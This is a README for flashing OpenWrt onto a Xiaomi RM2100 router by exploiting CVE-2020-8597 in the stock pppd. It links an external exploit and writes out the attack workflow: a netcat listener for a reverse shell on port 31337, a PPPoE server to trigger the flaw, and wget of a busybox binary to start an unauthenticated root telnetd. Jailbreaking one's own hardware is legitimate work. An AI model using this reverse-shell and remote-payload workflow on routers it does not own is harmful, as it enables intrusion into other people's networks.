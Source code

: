 # Xiaomi-RM2100-1.0.14-vs.-CVE-2020-8597

Specification:

CPU: MediaTek MT7621A
RAM: 128 MB DDR3
FLASH: 128 MB ESMT NAND
WIFI: 2x2 802.11bgn (MT7603)
WIFI: 4x4 802.11ac (MT7615)
ETH: 3xLAN+1xWAN 1000base-T
LED: Power, WAN, in Amber and White
UART: On board near ethernet, opposite side from power
Modified u-boot
Installation:

Run linked exploit to get shell, startup telnet and wget the files over
mtd write openwrt-ramips-mt7621-xiaomi_rm2100-squashfs-kernel1.bin kernel1
mtd write openwrt-ramips-mt7621-xiaomi_rm2100-squashfs-rootfs0.bin rootfs0
nvram set uart_en=1
nvram set bootdelay=5
nvram set flag_try_sys1_failed=1
nvram commit
mtd -r write openwrt-ramips-mt7621-xiaomi_rm2100-squashfs-rootfs0.bin rootfs0
Restore to stock:

Setup PXE and TFTP server serving stock firmware image (See dhcp-boot option of dnsmasq)
Hold reset button down while powering on
Wait until status led changes from flashing amber to white
Notes:
This device has dual kernel and rootfs slots like other Xiaomi devices currently supported (mir3g, etc.)
Thus, we use the second slot and overwrite the first rootfs onwards in order to get more space.

Exploit:

https://gist.github.com/namidairo/1e3fb3404c9f148474c06ae6616962f3    (pppd-cve.py)

An implementation of CVE-2020-8597 against stock firmware version 1.0.14

This requires a computer with ethernet plugged into the wan port and an active PPPoE session,
and if successful will open a reverse shell to 192.168.31.177 on port 31337.

As this shell is somewhat unreliable and likely to be killed in a random amount of time,
it is recommended to wget a static compiled busybox binary onto the device and start telnetd with it.
The stock telnetd and dropbear appear inoperable (Disabled on release versions of stock firmware likely)
Ie. wget https://busybox.net/downloads/binaries/1.31.0-defconfig-multiarch-musl/busybox-mipsel -O /tmp/busybox
chmod a+x /tmp/busybox
/tmp/busybox telnetd -l /bin/sh

Signed-off-by: Richard Huynh voxlympha@gmail.com


---------------------------------------------------------
# add howto:

Instructions
These instructions assume that the ethernet interface being used on the wan side device (that is hosting the pppoe server and serving the exploit) is named eth0, please adjust to your own setup as required.

On your lan side device before we trigger the exploit:

# A quick http server for the current directory
python -m http.server 80
# And in another window...
nc -nvlp 31337
On your wan side device:

# Start pppoe-server in the foreground
pppoe-server -I eth0 -F
# In another window to trigger the exploit
python pppd-cve.py
On your lan side device you should see an incoming connection from the router, and we can begin typing in commands to be run on the router.

It is recommended to quickly wget the busybox binary over and start telnetd as the reverse shell can be unstable and disconnect randomly.

cd /tmp
wget http://192.168.31.177/busybox
chmod a+x ./busybox
./busybox telnetd -l /bin/sh
If you are disconnected prematurely, just start the netcat listener and exploit script again.

After securing telnet access to the device you can wget the OpenWrt images onto the device and flash them. After connecting to telnet on 192.168.31.1:

wget http://192.168.31.177/openwrt-ramips-mt7621-xiaomi_redmi-router-ac2100-squashfs-kernel1.bin
wget http://192.168.31.177/openwrt-ramips-mt7621-xiaomi_redmi-router-ac2100-squashfs-rootfs0.bin
# Enable uart and bootdelay, useful for testing or recovery if you have an uart adapter!
nvram set uart_en=1
nvram set bootdelay=5
# Set kernel1 as the booting kernel
nvram set flag_try_sys1_failed=1
# Commit our nvram changes
nvram commit
# Flash the kernel
mtd write openwrt-ramips-mt7621-xiaomi_redmi-router-ac2100-squashfs-kernel1.bin kernel1
# Flash the rootfs and reboot
mtd -r write openwrt-ramips-mt7621-xiaomi_redmi-router-ac2100-squashfs-rootfs0.bin rootfs0
If all has gone well, you should be rebooting into OpenWrt.


